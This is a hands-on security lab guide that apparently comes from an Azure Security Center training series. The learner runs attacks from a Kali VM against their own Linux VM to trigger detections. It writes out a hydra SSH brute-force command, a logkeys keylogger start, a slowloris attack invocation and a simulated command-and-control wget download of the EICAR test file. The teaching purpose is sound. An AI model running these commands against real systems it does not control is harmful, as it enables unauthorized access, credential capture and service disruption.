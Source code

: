 ﻿# 05 - Linux Detections
##### Estimated lab time: 25 minutes
*The following lab is based on the* <a href="https://gallery.technet.microsoft.com/Azure-Security-Center-0ac8a5ef" target="_blank">Linux Detections playbook</a> *written by Yuri Diogenes. This playbook provides a more comphrensive explanation than is covered in this lab*<br>

In this lab we will explore the new Linux detection's in ASC by executing attacks in a Kali Linux VM that you are going to deploy. You will connect to your deployed Linux VM (Linux-0) leveraging SSH. In case you don't have a SSH client installed, you can install the free edition of MobaXterm <a href="https://mobaxterm.mobatek.net/download.html" target="_blank">here</a>.<br>

#### 1 - Create a Kali Linux VM
***Note**: time to create the Kali Linux VM is approx 5 minutes. Make sure to add a port that enables you to connect.*
1. In the Azure portal, click on **Create a resource** and search for **Kali Linux** and **create** the VM

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/kali_marketplace.png)

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Kali_Config.png)


***Note**: you don't have to wait until the deployment is complete. Proceed with the next exercise*

#### 2 - Create Linux users 
1. Connect to your Linux VM (Linux-0) that you have deployed earlier (note: not the Kali VM), using your favorite SSH tool

(If you have connections issues, validate that you requested JIT access).

2. Create 5 users with the names user1, user2, user3, user4, user5, by leveraging the following Linux command <br>
***Note**: Replace "userName" by user1, user2, etc.<br> Set the password to "mypassword1" for user1, "mypassword2" for user2, etc.*

```powershell
sudo adduser <userName>
```
![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/adduser_example.PNG)

#### 4 - Executing a brute force attack
1. Connect to the **Kali Linux VM** with SSH (ensure that your VM deployment in step 1 was successful)
2. Navigate to the folder **/usr/share/wordlists**

```powershell
cd /usr/share/wordlists
```

3. Upload the **<a href="https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt" target="_blank">lab_users.txt</a>** and **<a href="https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt" target="_blank">lab_pass.txt</a>** files to this folder by executing:
```text
sudo wget https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_users.txt
```
and
```text
sudo wget https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Files/lab_pass.txt

```
Validate the the files exist:

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/ls_users.png)


4. Copy the IP address from the Linux Victim VM that you have deployed earlier. We are going to brute force attack this VM
5.  Type the command below in your **Kali VM**, and replace "**IP**" with **yourLinuxVM** public IP address
```text
hydra -I -L lab_users.txt -P lab_pass.txt <IP> -t 4 ssh
```
6.  Leave the command to run until it finishes, and the result should show you the username and the password that was found.

#### 5 - Simulate capturing credentials and other useful information
1.  Run the command below in the **Linux Victim VM** to simulate an attacker that is trying to start logkeys to set up the system to capture credentials and other useful information: 
```text
logkeys --start
```
***Note**:<br> Ignore the error message if you don't have logkeys installed. Security Center will detect this attack anyway*

#### 6 - Simulate an attack against a web server
Assuming that the attacker has already performed some internal recon using nmap, you are going to simulate an attack against a web server
1. Run the command below in the Linux Victim VM:
```text
perl slowloris.pl -dns server.contoso.com
```
***Note**:<br> Ignore the error message if you don't have this script on your system. Security Center will detect this attack anyway*

#### 7 - Command & Control (C2) simulation
Attackers usually will communicate with command and control (C2) to transfer data or to download more  malicious software.
For this example, you will download the EICAR malware test file using WGET for the IP address.  The commands that follows must be executed in the Linux Victim VM:<br><br>

1. First, obtain the IP address of the target:
```text
nslookup eicar.com 
```
2. Now replace the XXX.XXX.XXX.XXX on the command below with the IP obtained from nslookup: 
```text
wget http://XXX.XXX.XXX.XXX/download/eicar.com
```
***Note**:<br>  if you have issues download eicar.com, try download eicar.txt (same command line, just change the extension). Or alteratively, use this "wget http://213.211.198.58/download/eicar.txt"*

#### 8 - Review Security Center alerts
1. Navigate to the **Security Center>Security Alerts** blade (under Threat Protection)
2.  Organize the alerts by date by clicking on the Date column, and review the alerts that were generated during this lab, it should look similar like this:

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux.png)

![alt text](https://raw.githubusercontent.com/yaniv-shasha/Azure-Security-Center-1/master/Labs/05%20-%20Linux%20Detections/Screenshots/Security_incident_detected_Linux2.png)

<br><br>
### Continue with the next lab
06 - Logic Apps integration, click <a href="https://github.com/yaniv-shasha/Azure-Security-Center-1/tree/master/Labs/06%20-%20Logic%20App%20integration" target="_blank">here</a>